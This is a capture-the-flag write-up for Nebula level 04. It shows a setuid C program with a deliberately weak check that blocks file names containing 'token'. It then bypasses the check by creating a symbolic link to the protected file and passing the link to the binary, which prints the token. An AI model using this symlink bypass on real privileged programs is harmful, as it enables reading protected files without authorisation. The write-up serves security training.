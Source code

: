 # Level 04

This level requires you to read the **token** file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Writeup
We can bypass the controls by creating a **symbolic link** with a name different from **token**.

Create a symbolic link in our home directory named **my_link**

```bash
ln -s /home/flag04/token /home/level04/my_link
```

Now just run the **flag04** binary and add **/home/level04/my_link** as argument:

```bash
/home/flag04/flag04 /home/level04/my_link
```

This is the token in output:

```bash
level04@nebula:/home/flag04$ /home/flag04/flag04 /home/level04/my_link
06508b5e-8909-4f38-b630-fdb148a848a2
```
